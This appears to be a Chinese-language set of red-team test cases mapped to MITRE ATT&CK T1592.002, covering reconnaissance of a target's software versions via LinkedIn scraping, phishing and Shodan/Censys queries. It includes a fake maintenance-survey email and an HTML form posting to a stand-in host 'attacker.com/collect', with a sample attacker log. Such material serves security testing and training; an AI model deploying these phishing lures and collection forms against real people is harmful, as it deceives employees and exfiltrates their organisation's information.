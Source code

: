 #### 测试案例 3：社交媒体和公开文档收集
**关联技术**：T1592.002（软件信息收集）  
**说明**：  
- 攻击者通过 LinkedIn、公司官网或技术论坛（如 CSDN、Reddit）收集员工分享的软件信息。  
**示例操作**（Python 伪代码）：
```python
import requests
from bs4 import BeautifulSoup
url = "https://www.linkedin.com/company/example-org/posts/"
response = requests.get(url)
soup = BeautifulSoup(response.text, 'html.parser')
# 提取软件相关信息
software_info = [post.text for post in soup.find_all(text=lambda t: "software" in t.lower() or "version" in t.lower())]
print(software_info)
```
**输出示例**：
```
Post: "Upgraded our servers to Apache 2.4.41 and WordPress 5.9.2."
Software: Apache 2.4.41, WordPress 5.9.2
```
**说明**：  
- 员工可能在社交媒体或技术文档泄露软件版本。  
- 关联 T1592.002：通过社交媒体获取软件信息。

#### 测试案例 4：钓鱼收集软件信息
**关联技术**：T1592.002（软件信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造邮件或调查问卷诱导员工泄露软件版本或配置信息。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: 系统维护调查
  Body: 请提供您当前使用的 Web 服务器版本和 CMS 类型：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      Web 服务器: <input type="text" name="webserver">
      CMS 类型: <input type="text" name="cms">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
webserver=Apache 2.4.41&cms=WordPress 5.9.2
```
**说明**：  
- 钓鱼攻击可直接收集软件信息。  
- 关联 T1592.002：通过钓鱼获取软件信息。

#### 测试案例 5：查询公开技术数据库
**关联技术**：T1592.002（软件信息收集）  
**说明**：  
- 攻击者通过公开技术数据库（如 Shodan、Censys）查询目标主机的软件信息。  
**示例操作**：
```bash
:: 在 Shodan 查询目标 IP 的软件信息
shodan host 192.168.1.10
:: 或在 Censys 查询
curl -H "Authorization: Basic YOUR_API_KEY" "https://search.censys.io/api/v2/hosts/192.168.1.10"
```
**输出示例**：
```
IP: 192.168.1.10
```